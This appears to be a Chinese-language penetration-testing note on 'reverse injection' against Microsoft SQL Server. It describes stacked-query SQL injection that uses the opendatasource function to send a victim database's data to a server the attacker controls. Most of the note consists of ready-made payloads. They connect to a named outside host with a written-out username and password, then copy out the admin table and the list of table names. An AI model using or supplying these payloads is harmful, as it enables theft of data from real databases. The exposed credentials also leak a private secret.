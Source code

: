 - 让被攻击者的数据库查询的数据插入到攻击者的数据库中
- 需要什么？
  - 公网IP
  - 服务器，数据库

- 反弹注入会暴露自己的公网IP
  - 需要其他网上虚拟空间搭建数据库

> 无法闭合、延时注入、盲注、报错注入都失效，用到反弹注入，需要`opendatasource`函数

- 必须得配合堆叠注入

  - 分号后面的数据库语句还可以执行

  ```
  select * from admin;select * from password;
  ```

- 格式

  ```
  insert into opendatasource('连接的组件', 'server=连接地址, 端口;uid=账号;pwd=密码;database=数据库的名字').数据库.dbo.表 select * from 查询的表
  ```

- 知道表内字段数

  ```mssql
  insert into opendatasource('sqloledb','server=den1.mssql7.gear.host,1433;uid=assdawqwe;pwd=Se7b77t0-!zP;database=assdawqwe').assdawqwe.dbo.mms select * from admin
  ```

- 不知道表内字段数一个一个反弹

  ```mssql
  insert into opendatasource('sqloledb','server=den1.mssql7.gear.host,1433;uid=assdawqwe;pwd=Se7b77t0-!zP;database=assdawqwe').assdawqwe.dbo.mms1 select name from sysobjects where xtype='U'
  ```